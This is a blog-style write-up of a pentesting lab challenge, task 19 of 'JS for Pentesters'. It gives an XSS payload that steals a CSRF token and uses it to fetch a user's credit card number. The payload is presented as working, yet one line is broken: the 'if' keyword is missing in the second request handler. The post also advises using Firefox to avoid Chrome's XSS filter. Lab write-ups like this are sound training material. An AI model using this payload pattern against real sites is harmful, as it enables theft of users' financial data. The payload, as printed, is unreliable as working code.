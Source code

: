 ```yaml
---
author: AnirudhAnand
comments: true
date: 2014-11-03 14:16:08+00:00
layout: post
slug: xss-multilevel-html-parsing-js-pentesters-task-19-write
title: 'XSS - Multilevel HTML parsing: JS for Pentesters task 19 write up'
wordpress_id: 5795
categories:
- jsp
- javascript
- xss
- security-tube
summary: writeup for task-19 of the JS for pentesters series by security-tube - Multilevel HTML parsing
---
```


In the last challenge we saw how can we receive and [parse an HTML]({{ site.url }}/2014/11/02/xss-html-parsing-xmlhttprequest-js-pentesters-task-18/) file that we get back as a result of a successful `XMLHttpRequest()`. But when we take it to the next level, things became a bit more difficult. Let us now see how to do a multilevel HTML parsing in order to solve a challenge.

[JS for Pentesters task 19](http://pentesteracademylab.appspot.com/lab/webapp/jfp/19)

Our objective is to Find John's Credit Card Number using an XSS vulnerability on this page and Display the Credit Card Number in the div with id "result".  Here the challenge is very easy but a bit time consuming to construct the correct payload. The working payload looks like this:

{% highlight html lineos %}
    <script>
        var xhr = new XMLHttpRequest();
        var xhr2 = new XMLHttpRequest();
        var csrf_token = '';
        var uid = '';    
        xhr2.onreadystatechange = function() {
             (xhr2.readyState == 4 && xhr2.status == 200) {
                var html = xhr2.responseXML;
                credit = html.getElementById("result").innerHTML;
                console.log(credit);
                document.getElementById("result").innerHTML = credit;
            }
        }
        xhr.onreadystatechange = function() {
            if (xhr.readyState == 4 && xhr.status == 200) {
                var html2 = xhr.responseXML;
                csrf_token = html2.forms[0].elements[1].value;
                alert(csrf_token);
                xhr2.open("GET", "/lab/webapp/jfp/19/getcreditcard?uid=" + uid + "&csrf_token=" + csrf_token, true);
                xhr2.responseType = "document";
                xhr2.send();
            }
        }
        var link = document.getElementById("settings");
        var uid = link.innerHTML.split(":")[1];
        xhr.open("GET", link.href, true);
        xhr.responseType = "document";
        xhr.send();
    </script>
{% endhighlight %}

What we are doing here is very simple. Since we have to parse multiple HTML page (to be precise, 2 HTML pages) we need to specify more than 1 `XMLHttpRequests` (2 to be precise). So we declared 2 XMLHttpRequest(), we called the first request and when it is successfully done, we call the 2nd one within the first one from which we will get the credit card number. Then we will use that number to display it in the "result" id in the main page.

**Note:**

1) While playing with XSS challenges, it is always recommended to use Mozilla Firefox because Google chrome has inbuilt **XSS** stopper which will stop us from executing arbitrary JavaScript code even if the page is vulnerable to XSS. So its strongly recommended to use Firefox instead of chrome.

We hope that you really liked this challenge. If there is anything you didn’t understand or wanted to get more clarity, please comment down and we are more than happy to help. Also, if you get a better way of solving the challenge, please share it with us and we are happy to learn from our readers too. Happy pentesting..
